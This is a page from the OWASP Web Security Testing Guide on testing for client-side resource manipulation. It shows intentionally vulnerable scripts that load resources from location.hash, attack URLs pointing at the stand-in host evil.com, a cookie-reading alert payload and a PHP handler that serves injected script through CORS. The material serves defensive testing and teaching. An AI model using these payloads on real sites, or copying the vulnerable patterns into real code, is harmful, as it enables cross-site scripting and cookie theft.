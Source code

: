 ```yaml
---

layout: col-document
title: WSTG - Latest
tags: WSTG

---
```

# Testing for Client Side Resource Manipulation

|ID             |
|---------------|
|WSTG-CLNT-06|

## Summary

A client side resource manipulation vulnerability is an input validation flaw. It occurs when an application accepts user-controlled input that specifies the path of a resource such as the source of an iframe, JavaScript, applet, or the handler of an XMLHttpRequest. This vulnerability consists of the ability to control the URLs that link to some resources present in a web page. The impact of this vulnerability varies, and it is usually adopted to conduct XSS attacks. This vulnerability makes it is possible to interfere with the expected application's behavior by causing it to load and render malicious objects.

The following JavaScript code shows a possible vulnerable script in which an attacker is able to control the `location.hash` (source) which reaches the attribute `src` of a script element. This particular case leads to a XSS attack as external JavaScript could be injected.

```html
<script>
    var d=document.createElement("script");
    if(location.hash.slice(1)) {
        d.src = location.hash.slice(1);
    }
    document.body.appendChild(d);
</script>
```

An attacker could target a victim by causing them to visit this URL:

`www.victim.com/#http://evil.com/js.js`

Where `js.js` contains:

```js
alert(document.cookie)
```

This would cause the alert to pop up on the victim's browser.

A more damaging scenario involves the possibility of controlling the URL called in a CORS request. Since CORS allows the target resource to be accessible by the requesting domain through a header-based approach, the attacker may ask the target page to load malicious content from its own website.

Here is an example of a vulnerable page:

```html
<b id="p"></b>
<script>
    function createCORSRequest(method, url) {
        var xhr = new XMLHttpRequest();
        xhr.open(method, url, true);
        xhr.onreadystatechange = function () {
            if (this.status == 200 && this.readyState == 4) {
                document.getElementById('p').innerHTML = this.responseText;
            }
        };
        return xhr;
    }

    var xhr = createCORSRequest('GET', location.hash.slice(1));
    xhr.send(null);
</script>
```

The `location.hash` is controlled by user input and is used for requesting an external resource, which will then be reflected through the construct `innerHTML`. An attacker could ask a victim to visit the following URL:

`www.victim.com/\#http://evil.com/html.html`

With the payload handler:

```html
http://evil.com/html.html
----
<?php
header('Access-Control-Allow-Origin: http://www.victim.com');
?>
<script>alert(document.cookie);</script>
```

## How to Test

To manually check for this type of vulnerability, we must identify whether the application employs inputs without correctly validating them. If so, these inputs are under the control of the user and could be used to specify external resources. Since there are many resources that could be included in the application (such as images, video, objects, css, and iframes), the client side scripts that handle the associated URLs should be investigated for potential issues.

The following table shows possible injection points (sink) that should be checked:

| Resource Type   | Tag/Method                                | Sink   |
| --------------- | ----------------------------------------- | ------ |
| Frame           | iframe                                    | src    |
| Link            | a                                         | href   |
| AJAX Request    | `xhr.open(method, <i>\[url\]</i>, true);` | URL    |
| CSS             | link                                      | href   |
| Image           | img                                       | src    |
| Object          | object                                    | data   |
| Script          | script                                    | src    |

The most interesting ones are those that allow to an attacker to include client side code (for example JavaScript) that could lead to XSS vulnerabilities.
